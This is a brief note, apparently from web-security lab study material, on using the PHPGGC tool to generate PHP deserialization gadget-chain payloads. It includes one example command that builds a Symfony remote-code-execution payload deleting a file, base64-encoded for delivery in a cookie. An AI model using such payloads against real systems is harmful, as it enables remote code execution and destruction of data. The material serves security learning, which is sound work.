 PHPGGC is alibrary of `unserialize()` payloads along with a tool to generate them.
You need to know the framework being utilized. For that you could force a verbose error by supplying invalid data (such as an invalid cookie)

https://github.com/ambionics/phpggc.git

## Example

```bash
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 | tr -d '\n'
```